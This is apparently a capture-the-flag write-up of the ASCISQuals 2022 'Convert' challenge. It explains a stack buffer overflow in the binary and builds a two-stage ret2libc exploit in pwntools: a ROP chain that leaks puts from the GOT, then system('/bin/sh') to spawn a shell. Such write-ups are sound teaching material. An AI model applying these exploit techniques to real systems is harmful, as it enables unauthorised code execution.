# ASCISQuals 2022 - Convert

You can download challenge file here: [convert.zip](convert.zip)

Download, extract and run the docker as server with command `sudo docker-compose up --build`, then we can get started!

# 1. Find bug

First, let's check the basic information of challenge:

```bash
$ file convert
convert: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, stripped

$ checksec convert
Canary                        : ✘
NX                            : ✓
PIE                           : ✓
Fortify                       : ✘
RelRO                         : Partial
```

This is a stripped binary with canary and RelRO off. Next, we will decompile the file with IDA to get the flow. First, let's look at function main with some renamed relevant function:



It will first call the function init_0() to set buf and print the address of binary for us:



It then reads 0x38 byte which can be divided into parts as follows:
- First 4 bytes will be converted to a number
- Next 4 bytes is the name
- The last 0x30 bytes is content

The program then sets to the variable `p` which has the following structure:



Then it execute check_data() with that variable `p`. In this function, it will check if the name with some strings and jump to the corresponding function:



Let's check the function htb_func() first. In this function, it will check for the inputted content to make sure those characters are in range of hex encode:



We can bypass this check by putting null byte at the begining of payload so that if our payload contains addresses, we still pass the check. It then check the inputted number. If number is 1, the program will add new struct to a global variable or add that struct to an existed struct:



If number is 0, it will check all structs one by one and will add the content of all structs to a local variable `s`:



But it doesn't check if the buffer `s` is full or not --> **Buffer Overflow**

I think that's enough bugs to exploit because the unknown_func() seems to be the same with this htb_func() so that's all bugs we can find. Let's move on!

# 2. Idea

We have bug **Buffer Overflow** and we have address of binary, we can use a technique called ret2libc to exploit this challenge. The idea is straightforward: Leak libc and get shell (this writeup is made after the ctf ended and the site was down so I just try it locally).

Summary:
- Stage 1: Leak libc address
- Stage 2: Get shell

# 3. Exploit

First, we will need to get the address of binary so we have this script:

```python
#!/usr/bin/python3

from pwn import *

def GDB():
	copy('x/50xg 0x007fffffffdf40')
	gdb.attach(p, gdbscript = '''
	# Stop at htb_func
	b*0x55555555535a
	b*0x5555555553a4
	# Break at memcpy of htb_func
	b*0x55555555550c
	# Break at ret of htb_func
	b*0x5555555556aa
	c
	''')

context.binary = exe = ELF('./convert_patched')
p = process(exe.path)

p.recvuntil(b' you ^^\n')
exe.address = u64(p.recv(6) + b'\0\0') - 0x1ada
log.info(hex(exe.address))
```

### Stage 1: Leak libc address

Now, we will want to check how many structures we need to control the saved rip of htb_func(). Let's try with this code to see:

```python
payload = b'0001' + b'htb\x00' + b'0'*0x30
p.send(payload)
payload = b'0001' + b'htb\x00' + b'1'*0x30
p.send(payload)
payload = b'0001' + b'htb\x00' + b'2'*0x30
p.send(payload)
payload = b'0001' + b'htb\x00' + b'3'*0x30
p.send(payload)
payload = b'0001' + b'htb\x00' + b'4'*0x30
p.send(payload)

GDB()
payload = b'0000' + b'htb\x00' + b'5'*0x30
p.send(payload)
```

We will want to create 5 structs and then add it to `s`. When we attach gdb to this process, we got a segfault at following instruction when adding contents to `s`:



With rax is inputted value:



Let's check back the decompiler to see how variables are placed:



So variable `s` is before the pointer `struct_2`, maybe we have overwritten that pointer so we got segfault. We notice that the var `count` is after `s` too so we can change that var `count` to our desired value.

The idea is to change that pointer back to the global list and set the count to 0x60. Let's see the data copied to `s` on stack:



The number `0x3232323232323232` highlighted with yellow is the pointer `struct_2` and the number `0x90` highlighted with yellow is the var `count`. The address `0x0000555555555a72` highlighted with green is the saved rip. If we overwrite the `struct_2` to global list and `count` to 0x60, we can make the program write again those chunk 0x30, 0x31 and 0x32 at the position as the blue note point to.

We can also see that our buffer of payload

```python
payload = b'0000' + b'htb\x00' + b'5'*0x30
```

is right down so if we craft a pop rdi, puts and several pops in payload 0x32, we can jump to 0x35 and excute more. The reason why I need to jump to the payload of 0x35 is because we can change payload at 0x35, while payload at 0x32 seems fixed and unchangable when we jump to main again.

So we will craft payload for 0x30 first:

```python
payload = b'0001' + b'htb\x00\x00000' + p32(0x60) + b'0'*0x28
p.sendafter(b'server!\n', payload)
```

We want to change `count` to 0x60 so that `count` will be added with 0x30 and become 0x90, the same place as payload 0x30. For payload 0x31, we will keep the var `count` same as 0x90 so that it will be added with 0x30 and become 0xc0, which is saved rbp:

```python
payload = b'0001' + b'htb\x00\x00111' + p32(0x90) + b'1'*0x28
p.send(payload)
```

Now payload 0x32 is right on saved rip so let's craft a payload to leak puts address now:

```python
pop_rdi = exe.address + 0x0000000000001c0b
pop7 = exe.address + 0x1bfe
payload = b'0001' + b'htb\x00\x002222222'
payload += flat(
	pop_rdi, exe.got['puts'],
	exe.plt['puts'],
	pop7,
	p64(exe.address + 0x4080 - 0x10)    # Don't need this one, forgot to remove =)))
)
p.send(payload)
```

It will print the address of puts out and then pop 7 times to jump on payload 0x35. Because we will want to input address so the first byte of content is null byte. Hence, we can not use the first 8 byte of content, our actual payload will start from the second 8 byte and we want the program jump back to main:

```python
payload = b'0000' + b'htb\0' + b'\x003333333' + p64(exe.address + 0x1AC1)
p.send(payload)
```

Analyze stack to have a clear view:



The address highlighted with green is saved rip and the one highlighted with pink is address of main(). So it will print the address of puts out and execute main again. Let's get the libc address and find the base address of libc:

```python
p.recvline()
puts_addr = u64(p.recvline()[:-1] + b'\0\0')
log.info(hex(puts_addr))
```

With the leaked address, we will get the libc from docker to find the libc base:

```python
libc.address = puts_addr - libc.sym['puts']
log.info(hex(libc.address))
```

Now, when the program execute main again, payload 0x30, 0x31, 0x32 is the same and we cannot change anything of it, but we can change payload of 0x35 so we can get shell with the next stage.

### Stage 2: Get shell

We have libc address so let's craft a simple system("/bin/sh") to get shell:

```python
payload = b'0000' + b'htb\0' + b'\x003333333'
payload += flat(
	pop_rdi, next(libc.search(b'/bin/sh')),
	libc.sym['system']
)
p.sendafter(b'server!\n', payload)
```

Full script: [solve.py](solve.py)

# 4. Get flag

Because the server closed, I created a docker in zip. You can get shell to test the script.



